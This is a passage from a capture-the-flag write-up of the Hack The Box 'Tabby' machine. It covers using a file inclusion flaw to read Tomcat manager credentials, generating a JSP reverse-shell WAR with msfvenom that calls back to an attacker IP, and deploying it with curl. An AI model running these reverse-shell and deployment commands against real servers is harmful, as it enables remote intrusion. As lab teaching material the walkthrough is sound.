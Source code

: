 
So we have a LFI vulnerability and we know that the credentials for the tomcat manager webapp are in the file /etc/tomcat9/tomcat-users.xml and that tomcat is installed in /usr/share/tomcat9. We can install tomcat9 on our system and see where the tomcat-users.xml file will be present.<br>
So the file we want to read is present at /usr/share/tomcat9/etc/tomcat-users.xml.

Let's get the credentials now. We get a blank page but if we view the source code of the page we find that we have successfully found the file and we get the tomcat manager credentials and we can see that we have the roles "admin-gui,manager-script".

<p class= "aligncenter" >
  <img src="assets/images/tabby-tomcat-users-xml.png" class="center">
</p>
We can't access the manager-gui to upload a malicious WAR file but we still can use curl to upload since we have the manager-script role.
### Using msfvenom to create a WAR file reverse shell.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.9 lport=4444 -f war > sid.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of war file: 1617 bytes
```
Let's upload this with help of curl.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T sid.war 'http://10.10.10.194:8080/manager/text/deploy?path=/a.war'
OK - Deployed application at context path [/a.war]
```
Starting up a netcat listner on port 4444. Then visitng "http://10.10.10.194:8080/a.war" to get our reverse shell.
```shell
```
